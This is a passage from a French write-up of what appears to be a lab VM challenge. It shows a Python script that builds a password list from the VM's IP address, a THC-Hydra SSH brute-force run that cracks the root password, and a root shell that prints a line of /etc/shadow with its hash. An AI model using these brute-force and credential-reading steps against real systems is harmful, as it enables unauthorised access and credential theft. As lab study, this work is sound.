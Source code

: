 Donc le script est lancé au démarrage de la VM après l'initialisation du réseau. On a donc une des inconnues : l'adresse IP :)  

Il ne reste qu'à générer un dictionnaire avec les possibilités :  

```python
#!/usr/bin/python
fmt = "addr:192.168.1.290.{0}\n"

fd = open("dict.txt", "w")
for i in range(0, 100):
    word = fmt.format(str(i).rjust(2, "0"))
    fd.write(word)
fd.close()
```

On teste ça avec la dernière version de *THC-Hydra* :  

```plain
$ ./hydra -f -l root -P ../dict.txt -e nsr ssh://192.168.1.29
Hydra v8.0 (c) 2014 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2014-06-09 11:17:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 103 login tries (l:1/p:103), ~0 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 192.168.1.29   login: root   password: addr:192.168.1.290.89
[STATUS] attack finished for 192.168.1.29 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-06-09 11:17:58
```

Et on applique :  

```plain
botter@Bitbot:~$ su -
Password: 
root@Bitbot:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Bitbot:~# head -1 /etc/shadow
root:$6$YlSK9y.8$uoWD0hXm.UgrLTCnf/fxWt2T67xcZdUKMsvs8jeSQAc5jzzHn46uuTRK4dDijdv9DEZ5XHwO2DAZAQBiYmElE/:16229:0:99999:7:::
```

Hummm c'est goûtu, ça a du retour !

*Published June 09 2014 at 16:11*
